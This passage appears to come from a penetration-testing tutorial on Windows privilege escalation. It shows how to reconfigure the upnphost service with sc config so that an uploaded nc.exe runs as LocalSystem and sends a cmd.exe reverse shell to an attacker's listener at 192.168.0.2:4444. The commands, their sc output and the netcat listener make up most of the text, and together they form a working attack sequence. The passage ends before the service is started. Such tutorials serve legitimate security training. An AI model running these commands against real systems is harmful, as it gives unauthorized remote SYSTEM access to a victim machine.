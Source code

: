 You can download the Windows executables (32bit and 64bit) from Netcat here.

Once nc.exe is uploaded to your victim, take note of its current path, because we will need it now we are going to edit the parameters from the upnphost service. Execute the commands below to edit the path of the binary that the upnphost service will execute when it's started.


# Set new binary path (don't forget the space after binpath=)							
# Syntax
								
C:\> sc config upnphost binpath= "C:\nc.exe -nv [ip] [port] -e C:\WINDOWS\System32\cmd.exe"

# Example
C:\> sc config upnphost binpath= "C:\nc.exe -nv 192.168.0.2 4444 -e C:\WINDOWS\System32\cmd.exe"								
[SC] ChangeServiceConfig SUCCESS
								
# Set obj and password
C:\> sc config upnphost obj= ".\LocalSystem" password= ""
[SC] ChangeServiceConfig SUCCESS							
							

Our upnphost service should now be ready to execute our nc.exe binary and connect back to a listener we will set up on our attacking machine. Let's do one last check of our upnphost service and make sure everything is as it should be.


C:\> sc qc upnphost
[SC] GetServiceConfig SUCCESS
                                                   
SERVICE_NAME: upnphost                                                                                 
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 3   DEMAND_START     
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\nc.exe -nv 192.168.0.2 4444 -e C:\WINDOWS\System32\cmd.exe   
        LOAD_ORDER_GROUP   :   
        TAG                : 0  
        DISPLAY_NAME       : Universal Plug and Play Device Host  
        DEPENDENCIES       : SSDPSRV  
        SERVICE_START_NAME : NT AUTHORITY\LocalService							
							

Looks perfect! The next thing to do is set up a simple listener on our attacking machine. I prefer to use Netcat for this.


root@pwnux:~# nc -lvnp 4444							
							

We are now ready to start the upnphost service and execute our reverse shell via the new binary path we provided.

